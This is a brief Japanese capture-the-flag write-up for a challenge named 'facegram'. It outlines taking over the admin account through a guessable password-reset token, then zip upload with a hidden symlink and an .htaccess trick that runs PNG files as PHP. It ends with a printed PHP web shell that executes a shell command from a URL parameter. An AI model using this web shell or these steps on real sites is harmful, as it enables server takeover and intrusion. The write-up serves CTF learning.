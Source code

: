 # facegram

## 概要

* 画像をアップロードして公開するサイト
* ユーザー管理されている

## 観察

* admin がいる
  * admin 用のページがあるのでは
* forgot-password ページがある
  * admin のパスワードをリセットできる？ → できる
* admin ページ
  * zip ファイルで一括アップロードできる

## 解法

* パスワードリセットリンクが単純
  * token を変えることで admin のパスワードを変更できる
* zip アップロード
  * シンボリックリンクを忍ばせておく
* .htaccess 追加
  * png ファイルを php と認識させる
  * https://github.com/Red-Knights-CTF/writeups/tree/master/2020/Boot2root_ctf/Upload

以下を配置して、Postman で叩くと良さげ
```php
<?php
$p = $_GET["p"];
$o = shell_exec($p);
echo $o;
?>
```